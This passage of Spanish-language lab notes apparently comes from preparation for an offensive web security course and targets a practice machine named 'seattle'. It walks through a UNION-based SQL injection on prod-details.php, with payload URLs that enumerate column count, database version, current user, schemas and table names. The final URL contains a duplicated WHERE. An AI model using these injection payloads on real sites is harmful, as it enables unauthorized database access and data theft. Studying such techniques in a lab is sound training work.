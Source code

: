      ![10-error_columns](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/seattle/evidencias/10-error_columns.png)

   - http://192.168.1.14/prod-details.php?prod=1+ORDER+BY+4

     ![10-error_columns4](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/seattle/evidencias/10-error_columns4.png)

   - http://192.168.1.14/prod-details.php?prod=1+ORDER+BY+5

     ![10-true_columns5](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/seattle/evidencias/10-true_columns5.png)

     - Hay 5 columnas

3. Consideración sobre lo que se muestra por pantalla

      1. En el código del fichero "prod-details.php" se puede ver que lo único que se mostrara por pantalla es lo siguiente:

            ![11-resultados por pantalla](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/seattle/evidencias/11-resultados por pantalla.png)

            

            Al utilizar la función mysql_fetch_assoc, unicamente se obtiene una fila, por lo que los resultados del UNION no se mostraran. Es por este motivo que se ha de usar un indice de articulo que no exista, como -1.

4. Identificación de la versión

   - http://192.168.1.14/prod-details.php?prod=-1+UNION+SELECT+NULL%2CNULL%2CVERSION%28%29%2CNULL%2CNULL

   ![12-Version](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/seattle/evidencias/12-Version.png)

5. Usuario de ejecución

   - http://192.168.1.14/prod-details.php?prod=-1+UNION+SELECT+NULL%2CNULL%2CUSER%28%29%2CNULL%2CNULL

     ![13-users](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/seattle/evidencias/13-users.png)

   

6. Información database

   - http://192.168.1.14/prod-details.php?prod=-1+UNION+SELECT+NULL%2CNULL%2Cschema_name%2CNULL%2CNULL+FROM+information_schema.schemata+WHERE+schema_name+NOT+LIKE+%27%25schema%25%27+AND++schema_name+NOT+LIKE++%27%25mysql%25%27

   ![14-table](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/seattle/evidencias/14-table.png)

7. Tablas de seattle

      - http://192.168.1.14/prod-details.php?prod=-1+UNION+SELECT+NULL%2CNULL%2Ctable_name%2CNULL%2CNULL+FROM+information_schema.tables+WHERE+table_schema+%3D+%27seattle%27

        ![15-tablas](/Users/nyanyi/Datos/Material_estudio/Offensive_secu/Awae/Preparacion/maquinas_preparacion/seattle/evidencias/15-tablas.png)

      - http://192.168.1.14/prod-details.php?prod=-1+UNION+SELECT+NULL%2CNULL%2Ctable_name%2CNULL%2CNULL+FROM+information_schema.tables+WHERE+table_schema+%3D+%27seattle%27+AND+WHERE+table_name+NOT+LIKE+%27%25tblBlogs%25%27
